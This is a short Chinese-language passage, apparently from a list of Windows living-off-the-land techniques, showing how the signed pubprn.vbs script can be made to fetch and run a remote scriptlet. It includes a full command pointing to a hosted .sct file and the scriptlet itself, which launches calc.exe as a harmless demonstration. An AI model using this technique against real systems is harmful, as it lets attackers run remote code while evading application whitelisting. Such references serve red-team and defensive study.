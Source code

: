 

**15、pubprn.vbs**

在Windows 7以上版本存在一个名为PubPrn.vbs的微软已签名WSH脚本，其位于C:\Windows\System32\Printing_Admin_Scripts\en-US，仔细观察该脚本可以发现其显然是由用户提供输入（通过命令行参数），之后再将参数传递给GetObject()

```
"C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct
```

test.sct

```
<?XML version="1.0"?>
<scriptlet>
<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"
    remotable="true"
	>
</registration>
<script language="JScript">
<![CDATA[
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
</scriptlet>
```

![](./image/20200413-15.png)


